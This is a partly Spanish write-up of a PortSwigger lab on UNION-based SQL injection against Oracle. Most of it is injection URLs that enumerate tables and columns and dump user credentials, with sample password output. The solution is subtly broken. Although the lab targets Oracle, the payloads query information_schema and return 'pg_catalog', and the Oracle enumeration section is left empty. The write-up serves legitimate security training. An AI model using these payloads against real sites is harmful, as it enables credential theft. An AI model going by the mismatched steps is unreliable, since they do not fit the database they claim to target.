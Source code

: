 # `LAB`: SQL injection attack, listing the database contents on Oracle

## Descripción:

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the `administrator` user. 

## Hint

On Oracle databases, every `SELECT` statement must specify a table to select `FROM`. If your `UNION SELECT` attack does not query from a table, you will still need to include the `FROM` keyword followed by a valid table name.

There is a built-in table on Oracle called `dual` which you can use for this purpose. For example: `UNION SELECT 'abc' FROM dual` 

### Oracle Cheastsheet:

- [PortSwigger - SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)


---

### Explicación:

- Muy similar a los laboratorios anteriores enfocados a `Oracle`
- En este caso es llegar hasta el login con `adminsitrador`
- Es un poco diferente a MySQL el dump de información de Oracle, así que pondré el proceso completo:

### Explicación Information Schema en Oracle

En Oracle se pone originalmente para mostrar todas las tables:

````sql
# Enumerar nombres de tablas:
SELECT table_name FROM all_tables
````

Para seleccionar solo la base de datos que estamos usando en Oracle es más fácil utilizar los usarios que utilizan la DB _(en este caso el más obvio de un user no default era "Peter")_:

````sql
# Enumerar propietarios de tablas:
SELECT table_owner FROM all_tables WHERE owner = 'PETER'
````

## Solución:

````py
# Vulnerabilidad y sanamiento
.web-security-academy.net/filter?category=Pets' -- -

# Mostrar info oculta (opcional)
.web-security-academy.net/filter?category=Pets' or 1 = 1 -- -

# Fuzzing Número de Columnas
.web-security-academy.net/filter?category=Pets' order by 2 -- -

## Columnas vulnerables: Como es caso de Oracle NO SIRVE el siguiente query:
.web-security-academy.net/filter?category=-Pets' Union Select '1','2' -- -

## Columnas vulnerables: Este es el que se debe utilizar, con la default table "dual":
.web-security-academy.net/filter?category=-Pets' Union Select '1','2' FROM dual -- -

    ### Enumer Tablas:

# Utilizar sintaxis Oracle para enumerar:








## Dumpear la base de Datos:
.web-security-academy.net/filter?category=-Pets' Union Select '1',schema_name FROM information_schema.schemata -- -
    # information_schema
    # public
    # pg_catalog

## Dumpear el Nombre de las Tablas:
.web-security-academy.net/filter?category=-Pets' Union Select '1',table_name FROM information_schema.tables WHERE table_schema = 'public' -- -
    # products
    # users_tcaine

## Dumpear el Nombre de las Columnas:
.web-security-academy.net/filter?category=-Pets' Union Select '1',column_name FROM information_schema.columns WHERE table_schema = 'public' AND table_name = 'users_tcaine' -- -
    # password_wyuxxb
    # username_fzanak

## Dumpear los Datos
.web-security-academy.net/filter?category=-Pets' Union Select '1',concat(password_wyuxxb,' ::: ',username_fzanak) from users_tcaine -- -
.web-security-academy.net/filter?category=-Pets' Union Select '1',password_wyuxxb||' : '||username_fzanak from users_tcaine -- -
    # ybh5rrmndjm9grpgaac3 ::: administrator
    # f18xc226xxi0tb4g9zpv ::: carlos
    # onix1tykwp2vvyphg0gb ::: wiener
````
